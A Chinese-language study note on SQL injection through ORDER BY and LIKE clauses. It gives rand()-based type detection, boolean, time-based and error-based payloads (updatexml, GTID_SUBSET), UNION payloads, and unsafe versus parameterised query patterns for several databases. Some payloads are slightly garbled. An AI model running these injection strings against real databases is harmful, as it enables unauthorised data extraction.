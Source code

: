## **orderby**
orderby可能出现三种场景：
```
order by 1，通过第几个字段来排序。变量是数值，可预编译，变量可以是字符。
order by "name"，通过某个字段名排序。变量是字符串，不可预编译。

group by sex order by count(*)，分组后通过分组后的数排序，相当于新增了一个字段，通过这个字段排序。一般不可控，排除注入。
```

orderby注入：可控参数判断过滤后类型是数值还是字符。
```
传入rand()在数字型中，每次刷新会显示不同的排序结果
当在字符型中用?sort=rand(),则不会有效果,排序不会改变

因此用rand()可判断注入点过滤后类型。
```
<https://www.cnblogs.com/1ink/p/15107674.html>
orderby利用：因为排序差异可使用布尔盲注，或者时间盲注，不可以联合注入，因为orderby必须在一个sql语句最后。
```
//?order=if(表达式,id,loginName)
//表达式为true时,根据id排序
//表达式为false时,根据loginName排序

order by sleep(5) 不可。
select * from users order by if(concat(0 x 7 e,user(), 0 x 7 e), 1,sleep(3));
```
报错回显
```
order by updatexml(1, if (1=2,1,concat(0 x 7 e,database(), 0 x 7 e)), 1);
order by GTID_SUBSET((version(),1)))
```


^
## **like**
> 模糊查询使用like关键字，可以使用通配符进行占位:
> （1）_ : 代表单个任意字符
> （2）% : 代表任意个数字符，**可以为0个**
```
查询第二个字是'花'的学员信息  
select * from stu where name like '_花%';

查询名字中包含 '德' 的学员信息
select * from stu where name like '%德%'; 
```

  
like可以使用联合注入。
like一般也在where语句之后。
```
1、where name like xx
where name like 'admin' union select 1,2,3,database()
'admin'+union+select+sleep(15)

2、where name like "xx"
where name like " admin" union select 1,2,3,database()-- "

admin'+union+select+sleep(15)--+
```


在区分数据库下的用法区分，例如：
不安全
```
//mysql环境
mybatis和php
select * from test where school_name like concat('%',${name},'%') 
select * from test where school\_name like concat('%',$name,'%')


//oracle环境
select * from test where school_name like '%'||${name},'%' 

//SQL Server环境
select * from test where school_name like '%'+${name},+'%'
```

安全
预编译
```
#### Mysql数据库

sql = " and indexNum like concat('%',?,'%') "

#### [Oracle]

sql = " like '%' || ? || '%' "

#### []()SQL Server

sql = " like '%' + ? + '%' "


```


